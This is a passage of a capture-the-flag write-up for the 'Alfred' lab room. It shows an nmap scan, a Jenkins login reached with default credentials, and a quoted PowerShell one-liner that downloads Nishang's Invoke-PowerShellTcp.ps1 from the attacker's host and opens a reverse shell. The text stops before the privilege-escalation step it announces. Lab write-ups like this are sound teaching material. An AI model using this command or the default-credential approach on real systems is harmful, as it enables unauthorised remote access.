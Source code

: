 # Information

Name: Alfred

Difficulty: Easy

Description: Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

## Initial Access

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using `Nishang` to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the reverse shell scripts.

**How many ports are open? (TCP only)**

3

```
└─# nmap -sS 10.10.30.42 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-05 09:13 EDT
Nmap scan report for 10.10.30.42
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.94 seconds
```

Checking out the website gives us some osint on emails and names. Honestly I guessed the answer when I saw *****:***** but I still need to find the actual log in page so I run a directory search on this while I go check out whats on port `8080`.

![image](https://user-images.githubusercontent.com/43668197/140515946-30cba3ae-8d06-457f-8383-837ee7517d5e.png)

**What is the username and password for the log in panel(in the format username:password)**

admin:admin

![image](https://user-images.githubusercontent.com/43668197/140519018-4261d091-3318-4ed1-8dc9-29468698f10b.png)

Port `8080` has our login page. We see the page is running Jenkins. A quick search of the default login information reveals its usually admin:password. If I had done brute forcing on the user admin I would have gotten the admin password quickly anyway.

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
